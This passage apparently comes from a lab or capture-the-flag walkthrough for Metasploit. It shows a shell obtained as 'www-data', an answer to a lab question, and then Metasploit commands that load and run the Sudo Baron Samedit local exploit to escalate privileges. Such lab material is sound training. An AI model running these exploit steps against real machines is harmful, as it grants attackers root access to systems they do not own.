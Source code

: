 ```bash
whoami
```

**Q2: What is the username of the user you obtained a shell with?**
**Answer:** `www-data`



## Module 7: Privilege Escalation via Sudo Vulnerability

### Objective: Escalate privileges using Sudo heap-based buffer overflow.

**Step 1: Background Current Session**
```bash
background
```

**Step 2: Search for Sudo Exploit**

![alt text](screenshots/metasploit-framework/25.PNG)

```bash
search sudo heap
use exploit/linux/local/sudo_baron_samedit
show options
set SESSION <current_session_id>
exploit
```
![alt text](screenshots/metasploit-framework/27.PNG)
